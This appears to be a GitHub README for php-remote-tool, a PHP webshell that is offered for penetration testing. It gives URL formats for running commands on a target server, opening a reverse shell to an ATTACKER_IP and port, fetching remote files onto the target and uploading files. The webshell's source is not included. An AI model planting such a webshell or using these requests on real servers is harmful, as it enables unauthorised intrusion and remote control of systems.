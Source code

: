 PHP Remote Tool
Author: Yavuz Sahbaz
GitHub: https://github.com/YavuzSahbaz

Overview
php-remote-tool is a PHP webshell script that enables remote command execution, reverse shell initiation, file downloading, and file uploading on a target system running a web server with PHP support. This script is designed for use during penetration testing exercises or system administration tasks where you have permission to perform these actions on the target system. Unauthorized use may be illegal and unethical.

Usage
Upload the php-remote-tool script to the target web server.
Access the script through a web browser or a tool like curl or wget.
Execute commands
To execute a command on the target system, use the following URL format:

arduino
Copy code
http://target.com/path/cmd.php?cmd=[COMMAND]
Replace [COMMAND] with the command you want to execute on the target system.

Initiate reverse shell
To initiate a reverse shell to your system, use the following URL format:

arduino
Copy code
http://target.com/path/cmd.php?revshell=[ATTACKER_IP]:[ATTACKER_PORT]
Replace [ATTACKER_IP] with your IP address and [ATTACKER_PORT] with the port you want to use for the reverse shell connection. Make sure to set up a listener on your system to receive the connection.

Download a file
To download a file from a URL and save it on the target system, use the following URL format:

arduino
Copy code
http://target.com/path/cmd.php?download=[URL]&filename=[FILENAME]
Replace [URL] with the URL of the file you want to download, and [FILENAME] with the desired name for the saved file on the target system.

Upload a file
To upload a file to the target system, use the following URL format:

arduino
Copy code
http://target.com/path/cmd.php?upload&filepath=[FILE_PATH]
Replace [FILE_PATH] with the desired file path for the uploaded file on the target system. Use an HTTP POST request to send the file with the Content-Type header set to multipart/form-data and the file parameter named "file".

Disclaimer
This PHP webshell script is intended for educational purposes and ethical use only. Unauthorized use of this script may be illegal and unethical. Always make sure you have permission to perform any action on the target system and follow ethical hacking principles and guidelines. The author and any contributors are not responsible for any damage caused by unauthorized use of this script.
